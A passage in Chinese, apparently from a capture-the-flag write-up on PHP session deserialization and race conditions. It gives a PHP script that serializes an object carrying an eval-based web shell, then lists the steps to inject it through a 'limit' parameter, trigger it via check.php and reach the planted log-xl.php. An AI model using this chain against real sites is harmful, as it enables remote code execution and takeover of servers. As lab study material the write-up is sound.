 ```php
<?php

class User{
    public $username = 'xl.php';
    public $password = '<?php eval($_POST[1]); ?>';
}

$user = new User();

echo(base64_encode('|'.serialize($user)));?>
```

生成的payload赋给**limit**

![image-20221222194404977](条件竞争&Session.assets/image-20221222194404977.png)

然后访问**check.php**

此时反序列化成功，访问`log-xl.php`

如果开启了**session**自动清除，就需要竞争（暂时还没遇到，遇到再说

![image-20221222194441242](条件竞争&Session.assets/image-20221222194441242.png)
